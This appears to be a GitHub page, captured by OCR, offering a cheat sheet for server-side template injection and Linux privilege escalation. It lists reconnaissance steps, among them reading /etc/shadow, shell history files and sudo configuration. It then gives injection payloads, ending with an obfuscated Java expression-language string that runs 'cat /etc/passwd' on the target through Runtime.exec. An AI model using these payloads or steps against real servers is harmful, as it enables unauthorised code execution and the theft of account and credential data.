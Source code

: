 # Server-Side-Template-Injection - Linux - Privilege Escalation

Template injection allows an attacker to include template code into an existant (or not) template. 
A template engine makes designing HTML pages easier by using static template files which at runtime replaces variables/placeholders with actual values in the HTML pages


SSTI - Linux Privilege Escalation Checklists 

System Information:
Hostname
Networking details:
Current IP
Default route details
User Information:
Current user details
Shows users logged onto the host
List all users including uid/gid information
List root accounts
Extracts password policies and hash storage method information
Checks if password hashes are stored in /etc/passwd
Attempt to read restricted files i.e. /etc/shadow
List current users history files (i.e .bash_history, .nano_history, .mysql_history , etc.)
Basic SSH checks

Privileged access:
Which users have recently used sudo
Determine if /etc/sudoers is accessible
Determine if the current user has Sudo access without a password
Are known 'good' breakout binaries available via Sudo (i.e. nmap, vim etc.)
Is root's home directory accessible
List permissions for /home/ 

Payloads: 

Basic injection  

#${7*7}  

${{7*7}} 

%7B%7B4*4%7D%7D 

nxmve$%7B30*30%7Dac2nj 

${T(java.lang.System).getenv()}.  


/etc/passwd 

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())} 
